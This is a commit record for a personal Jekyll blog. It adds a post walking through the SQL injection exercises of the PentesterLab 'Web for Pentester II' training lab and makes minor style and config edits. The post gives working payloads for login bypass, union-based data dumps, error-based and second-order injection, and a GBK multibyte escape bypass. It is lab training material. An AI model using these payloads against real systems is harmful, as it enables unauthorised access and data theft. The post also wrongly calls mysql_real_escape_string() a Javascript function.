

Before and after one commit to yzh503/yzh503.github.io, a Jekyll site: the page built from _posts/2015-08-19-Kali-installation-tips-for-MBP-2015.markdown, in a window 1280 px wide. Shown: the part 1203-3123 px from the top of the page at 81% size, without its empty margins (248-991 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; Markdown is read by kramdown in place of the engine named in the settings; comment, search, counter and statistics services are not loaded; before the commit the page ends 3026 px from its top, so only the background shows below that.

Commit message:
new post

```diff
--- a/_config.yml
+++ b/_config.yml
@@ -1,10 +1,10 @@
 # Site settings
-title: "Syzygy"
+title: "Sim0n's blog"
 email: simony503@gmail.com
 description: "Feel free to email me."
 baseurl: ""
 url: "http://yzh503.github.io"
-title_description: "Ramblings about computer science, software development, algorithms, web penetration test... maybe some other interesting stuff. It's a long way from scientific theory to engineered product."
+title_description: "Ramblings about computer science, software development, algorithms, web penetration test... maybe some other interesting stuff."
 title_image: "https://en.gravatar.com/userimage/92928099/2795b51533a1beab5b4dfe39ae6b255b.jpg?size=200"
 disqus_account: yzh503githubio
 github_repository: https://github.com/yzh503
--- /dev/null
+++ b/_posts/2015-08-20-sql-injection-web-for-pentester-II.markdown
@@ -0,0 +1,110 @@
+---
+layout: post
+title: SQL injection Examples - Web for Pentester II
+date: 2015-08-20
+author: yzh503
+summary: All the solutions of SQL injection part of Web for Pentester II
+categories: Web_Penetration
+tags:
+ - Web penetration
+ - SQL injection
+---
+
+##Background
+SQL injection is a type of vulnerabilities of SQL syntax. Based on SQL commands knowledgement, you can insert your own query into the origin code to bypass the authentication page or to get sensitive information. There are a bunch of good free examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each example of SQL injection in [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you give the VM at least 1 GB of RAM, and host-only network. OK, now open the page and get started, Using nmap or typing ifconfig in the VM to get the IP.
+
+##Solutions
+###Example 1
+It's pretty straightforward. Use the very basic injection technique. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it's better to perform this in username.
+{% highlight mySQL %}
+' or 1=1 #
+{% endhighlight %}
+Note that assume the original query is like
+{% highlight mySQL%}
+SELECT * FROM users WHERE username='******' AND password='******'
+{% endhighlight %}
+single quote ' can be used to escape from string, and insert query. After we send the request, the query would be like
+{% highlight mySQL%}
+SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
+{% endhighlight %}
+The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.
+
+
+###Example 2
+In this example, the number of users returned is restricted.
+{% highlight mySQL %}
+' or 1=1 LIMIT 1 #
+{%endhighlight%}
+
+
+###Example 3
+In this example, single quotes are removed in the query, but it's still breakable by using '\'. The query will become like
+{% highlight mySQL %}
+SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
+{%endhighlight%}
+The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.
+
+###Example 4
+There is no text box, so look at the address bar.
+{% highlight mysql %}
+.../example4/?req=username%3d%27hacker%27
+{% endhighlight  %}
+Decode the url,
+{% highlight mysql %}
+username='hacker'
+{% endhighlight %}
+This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
+{% highlight mysql %}
+.../example4/?req=username='
+{% endhighlight %}
+This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
+{% highlight mysql %}
+.../example4/?req=' or 1=1 #
+{% endhighlight %}
+
+
+###Example 5
+This is a union-based SQL injection.
+{%highlight mysql%}
+.../example5/?limit=3 union all select * from users
+{%endhighlight%}
+
+
+###Example 6
+Change the url to
+{%highlight mysql%}
+.../example5/?group=username union all select * from users
+{%endhighlight%}
+or simple delete group
+{%highlight mysql%}
+.../example5/?
+{%endhighlight%}
+This is a dump example using group by.
+
+
+###Example 7
+Pentester lab provides an error-pone statement,
+{%highlight mysql%}
+extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
+{%endhighlight%}
+but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
+With an error message displayed, you can easily see the structure of the query.
+![msg](http://i.imgur.com/1iWLWTB.png)
+Same as example 6, delete suffix or use union-based injection to display all users.
+
+
+###Example 8
+Create a few users randomly first. Create a new user named the following:
+{%highlight mysql%}
+' union all select * from users where username='whatever_you_want_to_check' #
+or
+' union all select * from users where id='whichever_you_want_to_check' #
+{%endhighlight%}
+With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.
+
+
+###Example 9
+This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
+{%highlight mysql%}
+呵' or 1=1 #
+{%endhighlight%}
--- a/css/style.scss
+++ b/css/style.scss
@@ -535,7 +535,7 @@
 		}
 
 		.content {
-			font-size: 18px;
+			font-size: 16px;
 			line-height: 170%;
 			padding-left: 15px;
 			padding-right: 15px;
@@ -566,13 +566,13 @@
 			blockquote {
 				position: relative;
 				width: 100%;
-		    margin-left: -15px;
+		    margin-left: -16px;
 				padding-right: 45px;
 				background-color: $darker;
 				color: white;
 				box-sizing: content-box;
 				border: none;
-				font-size: 28px;
+				font-size: 18px; /* quote font size */
 
 				@media (min-width: $screen-sm-min) {
 					margin-left: -30px;
```
Also changed, not shown: _includes/image.html (added).
